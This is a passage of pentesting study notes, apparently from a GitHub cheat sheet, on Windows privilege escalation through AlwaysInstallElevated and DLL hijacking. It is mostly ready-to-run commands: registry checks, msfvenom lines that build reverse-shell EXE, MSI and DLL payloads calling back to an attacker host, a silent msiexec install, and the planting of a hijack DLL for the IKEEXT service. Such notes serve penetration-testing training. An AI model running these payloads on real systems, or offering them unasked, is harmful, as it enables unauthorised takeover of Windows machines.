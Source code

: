 Reference:
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

#### AlwaysInstallElevated
```cmd
# On Windows:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# if key is found, the following is produced:
# HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
#    AlwaysInstallElevated    REG_DWORD    0x1
# if not found:
# ERROR: The system was unable to find the specified registry key or value.

# On Kali, generate a msi that will call a reverse shell
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=[kali ip] LPORT=[port] -f exe -o payload.exe
msfvenom -p windows/exec cmd="C:\Users\bob\AppData\Local\Temp\Payload.exe" -f msi-nouac -o shell.msi
# transfer both to "C:\Users\bob\AppData\Local\Temp\"

# On Windows:
msiexec /quiet /qn /i "C:\Users\bob\AppData\Local\Temp\malicious.msi" # /quiet - Suppress messages to the user, /qn - no gui, /i - regular (vs administrative) installation
```

Tools:
* Metasploit Module: `exploit/windows/local/always_install_elevated`

Resources:
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

#### DLL Hijacking
Order in which Windows finds a DLL:
1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

Sometimes, a DLL does not exist on the machine. As a low privilege user we have little hope of putting a malicious DLL in 1-4, 5 is not a possibility in this case because we are talking about a Windows service but if we have write access to any of the directories in the Windows PATH we win.

We'll need 2 things, a writable file/folder in %PATH% ("C:\Python27"), and a vulnerable service/application that has missing DLLs (IKEEXT):
```cmd
echo %path%
# Find a non-default directory in "C:\", it will give write access to authenticated users.
cacls "C:\Python27"
msfvenom -p windows/shell_reverse_tcp lhost=[kali ip] lport=[port] -f dll -o shell.dll # on Kali
copy shell.dll C:\Python27\wlbsctrl.dll
# restart IKEEXT service
```
